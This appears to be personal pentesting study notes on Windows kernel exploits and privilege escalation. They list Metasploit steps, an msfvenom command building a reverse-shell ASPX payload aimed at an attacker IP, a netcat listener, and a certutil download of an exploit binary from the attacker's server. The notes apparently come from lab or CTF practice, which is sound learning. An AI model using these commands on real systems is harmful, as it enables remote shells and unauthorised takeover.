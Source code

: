 04. Kernel Exploits

## Overview:
Kernel:
- Computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator
![d7c0dbe362715c030c0f71b7266335b4.jpg](../../_resources/7976cb2827e0420d82ae3cac2f4d8013.jpg)
![aab0d8459510021d15a6c010024fb06e.jpg](../../_resources/566a662597354559ab6c2beb33f25fc5.jpg)
List of windows kernel exploits: https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit
https://seclists.org/fulldisclosure/2010/Jan/341 is the used exploit
- Get a meterpreter session
- `background` or control-z
- `search MS##-##`
- `use exploit/windows/local/STUFF`
- `sessions`
- `set session #`
- `set LHOST IP`
- `set LPORT 5555` # make sure it is different than the meterpreter port
- `run`
- You may need to run multiple times/change settings with `options` again

### Manual Escalation without Metasploit (uploading aspx file)
#### Getting a shell
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f aspx > manualshell.aspx`
- `nc -nvlp 4444` # Listening for shell
- Run the aspx file on the web server or whatever

#### Priv Escalation

- Search for exploits in google or https://github.com/SecWiki/windows-kernel-exploits
- Download, (compile,) run on machine!
- Transferring file:
	- `python -m SimpleHTTPServer 80` or `python3 -m http.server 80`
	- `certutil -urlcache -f http://10.10.14.25/MS10-059.exe ms.exe`